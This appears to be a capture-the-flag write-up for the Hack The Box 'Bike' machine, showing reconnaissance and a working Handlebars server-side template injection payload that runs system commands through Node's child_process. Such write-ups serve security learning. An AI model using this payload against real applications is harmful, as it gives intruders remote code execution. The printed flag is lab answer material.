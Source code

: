 ﻿# HTB Bike - SSTI Exploit Write-up

![Bike Logo](https://infosec-db.github.io/CyberDepot/assets/htb-bike.png)

## Overview
**HTB Bike** is a *Hack The Box* machine that involves exploiting a **Server-Side Template Injection (SSTI)** vulnerability in a **Node.js Handlebars template engine**. This write-up walks through the exploitation process and provides a fully automated **SQLmap-styled** exploit.

---

## Enumeration

### **🔍 Nmap Scan**
We start by scanning the target with **Nmap**:

```bash
nmap -sC -sV -p- 10.129.6.196
```

This reveals:
- **Port 22 (SSH)** - Ignored (no creds available).
- **Port 80 (HTTP)** - Running an **Express.js** server.

### **🔍 Identifying SSTI**
When interacting with the email subscription form on the web page, our input is reflected back:

```html
We will contact you at: <input>
```

We test for **Server-Side Template Injection (SSTI)** using:

```bash
curl -X POST http://10.129.6.196/ -d "email={{7*7}}"
```

If the response contains `49`, **the site is vulnerable!** ✅

---

## Exploitation

### **🔗 Exploit Payload**
Using **Handlebars SSTI**, we craft a payload that executes system commands:

```handlebars
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami').toString();"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

This **bypasses sandboxing** and allows **Remote Code Execution (RCE)**!

---

## 🚀 Automating the Exploit

We use a **fully automated Python script** with:
✅ **SQLmap-style output**  
✅ **Fancy ASCII banner**  
✅ **JSON debugging for failed extractions**  

```bash
python3 bike_exploit.py
```

### **Example Output**
```plaintext
[12:00:00] [INFO] Starting SSTI Exploit for Bike HTB Machine
[12:00:01] [SUCCESS] SSTI vulnerability detected!
[12:00:02] [INFO] Checking user privileges...
[12:00:02] [SUCCESS] Running as: root
[12:00:03] [INFO] Fetching flag...
[12:00:04] [SUCCESS] Flag: 6b258d726d287462d60c103d0142a81c
```

---

## 📜 Conclusion
This challenge demonstrates **how dangerous SSTI can be**, especially in **Node.js-based applications**. The exploit works by **breaking out of the Handlebars sandbox** and gaining **full system control**.

---
🛠️ **Credits:**  
💀 Developed by **#AfterDark**  
🔗 [CyberDepot](https://infosec-db.github.io/CyberDepot/) - More Exploits & Writeups

